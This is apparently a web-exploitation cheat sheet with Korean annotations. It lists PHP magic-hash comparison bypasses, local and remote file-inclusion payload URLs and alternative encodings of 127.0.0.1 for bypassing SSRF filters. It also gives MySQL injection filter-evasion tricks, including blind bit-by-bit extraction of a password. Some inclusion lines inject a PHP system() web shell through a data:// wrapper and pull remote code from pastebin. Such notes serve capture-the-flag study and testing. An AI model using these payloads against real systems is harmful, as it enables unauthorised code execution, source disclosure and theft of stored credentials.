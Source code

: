 <br />

> Magic hash

```php
"0e1354" == "0e87453" // true
"0" == "0e7124511451155" //true
"0" == md5("240610708") // true
"0" == sha1("w9KASOk6Ikap") // true
md5("QLTHNDT") == md5("QNKCDZO") // true
```

[Link](https://www.whitehatsec.com/blog/magic-hashes/)

<br />

> LFI & RFI

```
http://URL/?page=php://filter/convert.base64-encode/resource=index.php

http://URL/?page=php://filter/convert.base64-decode/resource=./upload/abcde

http://URL/?page=data://text/plain,%3Cxmp%3E%3C?php%20system($_GET[%27x%27]);&x=ls%20-al

http://URL/?page=http://pastebin.com/raw/abcd/?&x=ls%20-al
```

<br />

> 127.0.0.1

```
http://2130706433

http://0x7f000001

http://0x7f.0x00.0x00.0x01

http://017700000001

http://0177.000.000.01
```

<br />

> MySQL

```
다음 라인 : %0a //주석처리를 하더라도 다음 줄로 넘겨버리면 무시된다.
주석 처리 : -- # ;%00 /**/
파라미터가 두개 있을경우 \를 입력해 뒤의 '를 무력화 후 쿼리문을 스트링화 시키고 뒤에 파라미터에 exploit을 수행할 수 있다.
%0a 말고도 %0b 등 대신 쓰일 수 있는 여러문자들이 있다.
비교 문자 : = like in strcmp()
문자 자르기 : strcmp left right mid Function
and == &&, or ==||
if ord Function Filtering : conv(hex(substr(pw,1,1)),16,10)
공백 대신 : /**/ %09 %0a ()
IF(substr(lpad(bin(ord(substr(password,1,1))),8,0),1,1)
```
